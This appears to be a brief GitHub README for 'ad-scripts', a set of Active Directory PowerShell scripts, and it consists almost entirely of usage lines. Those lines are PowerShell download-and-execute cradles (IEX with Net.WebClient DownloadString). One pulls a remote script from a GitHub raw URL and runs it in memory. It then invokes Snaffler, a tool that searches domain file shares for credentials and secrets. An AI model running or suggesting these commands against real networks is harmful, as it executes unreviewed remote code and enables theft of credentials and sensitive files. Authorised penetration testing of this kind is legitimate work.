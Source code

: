 # ad-scripts
Collection of active directory powershell scripts to use

usage:

IEX (New-Object Net.WebClient).DownloadString('')


## Snaffler Usage ##

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ribthegreat99OrN0P/ad-scripts/refs/heads/main/snafflerPS.ps1')
Invoke-Snaffler -ExeArgs '-s','-d','domain.local'
